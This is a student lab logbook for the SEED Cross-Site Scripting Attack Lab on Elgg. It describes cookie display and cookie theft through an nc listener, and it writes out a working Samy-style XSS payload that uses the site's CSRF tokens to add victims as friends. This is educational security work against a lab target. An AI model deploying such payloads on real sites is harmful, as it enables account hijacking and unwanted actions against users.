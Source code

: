 # Tasks for week \#9 and \#10


## Cross-Site Scripting (XSS) Attack Lab

- **Task 1**:
    - The purpose of this task is to embed a JavaScript program in an Elgg profile. In order to do this, we logged in as Bobby and injected the following Javascript program in the brief description field:  
![task1.1](docs/logbook10/foto1.png)

    - Then we logged in as Alice, visited Bobby's profile and the JavaScript code was executed.
![task1.2](docs/logbook10/foto2.png)

- **Task 2**:
    - The purpose of this task is similar to the previous one but the JavaScript code displays the user's cookie.
![task2.1](docs/logbook10/foto3.png)

    - Then we logged in as Alice, visited Bobby's profile and the JavaScript code was executed, showing Alice's cookie.
![task2.2](docs/logbook10/foto4.png)

- **Task 3**:
    - The purpose of this task is similar to the previous one but this time we want the cookie to be sent to the attacker. To achieve this, we injected the following JavaScript code that sents an HTTP GET request through an image's source field.
![task3.1](docs/logbook10/foto5.png)

    - The attacker uses the nc command to listen on port 5555 and receive the HTTP request with the Alice's cookie.
![task3.2](docs/logbook10/foto6.png)

- **Task 4**:
    - The purpose of this task is to perform an similar attack to what Samy did to MySpace in 2005. Using Firefox's HTTP inspection tool, we get the following HTTP request when Bobby adds Samy as a friend:
![task4.1](docs/logbook10/foto7.png)

    - Using the same technique used in the previous tasks, we can inject the following JavaScript program in samy's profile:

    ``` 
        <script type="text/javascript">
            window.onload = function () {
            var Ajax=null;
            var ts="&elgg_ts="+elgg.security.token.elgg_ts;
            var token="&elgg_token="+elgg.security.token.elgg_token;
            //Construct the HTTP request to add Samy as a friend.
            var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token;
            //Create and send Ajax request to add friend
            Ajax=new XMLHttpRequest();
            Ajax.open("GET", sendurl, true);
            Ajax.send();
            }
        </script> 
    ```

    - This code creates an HTTP request that adds the current user to Samy's friend list.

    Example:
    - Alice's friend list before visiting Samy's profile:
![task4.2](docs/logbook10/foto8.png)

    - Alice visits Samy's profile and the HTTP request is executed.
![task4.3](docs/logbook10/foto9.png)

    - Alice's friend list after visiting Samy's profile:
![task4.4](docs/logbook10/foto10.png)
